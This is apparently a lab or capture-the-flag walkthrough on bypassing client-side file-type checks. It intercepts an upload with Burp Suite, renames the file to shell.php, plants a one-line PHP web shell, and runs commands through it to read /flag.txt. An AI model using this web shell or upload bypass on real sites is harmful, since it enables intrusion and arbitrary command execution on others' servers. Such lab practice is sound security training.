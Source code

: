 # Client-Side Validation

Try to bypass the client-side file type validations in the above exercise, then upload a web shell to read /flag.txt (try both bypass methods for better practice)

This lab has some protection features reagarding file uploading.

<figure><img src="../../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>

Find an image to upload and use Burp Suite to capture the upload POST request.

<figure><img src="../../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

Now lets change the value of the filename parameter to shell.php and add the following line of code like shown in the image above:

```php
<?php system($_REQUEST['cmd']); ?>
```

After we foward the request, and have the confirmation that the file was uploaded successfully, lets find out where the file is located.

<figure><img src="../../../.gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>

Go to the main page of the web application, and use the Inspector. We can see that our shell is under the `profiles_images` directory.

So lets follow the destination of the file and add our command:

```bash
/profile_images/shell.php?cmd=pwd
```

<figure><img src="../../../.gitbook/assets/image (132).png" alt=""><figcaption></figcaption></figure>

And its working!

<figure><img src="../../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

Then we list the root directory to confirm the flag location:

```bash
/profile_images/shell.php?cmd=ls /
```

<figure><img src="../../../.gitbook/assets/image (134).png" alt=""><figcaption></figcaption></figure>

And we retrieve the flag!

```bash
/profile_images/shell.php?cmd=cat /flag.txt
```


